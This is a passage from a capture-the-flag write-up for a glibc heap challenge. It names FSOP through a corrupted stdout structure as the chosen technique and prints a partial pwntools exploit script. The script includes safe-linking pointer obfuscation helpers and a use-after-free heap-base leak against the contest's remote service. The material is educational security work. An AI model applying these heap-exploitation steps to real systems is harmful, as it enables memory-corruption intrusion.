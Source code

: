
There are tons of solid techniques you can pull off from here, especially with **arb read/write** on **last libc versions**. One particularly **awesome list** of such methods is this [document by nobodyisnobody](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md) — definitely worth a read.

As for me, I went with a classic: **FSOP (File Stream Oriented Programming)** via a corrupted `stdout` structure and a call to `puts()`. Clean and effective. 🔪

### Exploitation Script

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./limit_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = elf
global r
# r = process()
r = remote('smiley.cat', '39321')
def defuscate(x,l=64):
    p = 0
    for i in range(l*4,0,-4): # 16 nibble
        v1 = (x & (0xf << i )) >> i
        v2 = (p & (0xf << i+12 )) >> i+12
        p |= (v1 ^ v2) << i
    return p

def obfuscate(p, adr):
    return p^(adr>>12)

def create(index,size):
    r.sendlineafter(b'> ',b'1')
    r.sendlineafter(b'Index:',str(index).encode())
    r.sendlineafter(b'Size:',str(size).encode())

def free(index):
    r.sendlineafter(b'> ',b'2')   
    r.sendlineafter(b'Index:',str(index).encode())

def view(index):
    r.sendlineafter(b'> ',b'3')   
    r.sendlineafter(b'Index:',str(index).encode())

def write_into(index,content):
    r.sendlineafter(b'> ',b'4')   
    r.sendlineafter(b'Index:',str(index).encode())
    r.sendafter(b'Data: ',content)

# gdb.attach(r,gdbscript='b *main+1273')
create(0,24)
create(1,24)
free(0)
free(1)
create(0,24)
view(0)
r.recvuntil(b'Data: ')
heap_base = defuscate(unpack(r.recv(6),'all')) + 0x562c4dace000 -0x562c4dace2a0
log.critical(f'heap_base = {hex(heap_base)}')
free(0)
create(0,24)
```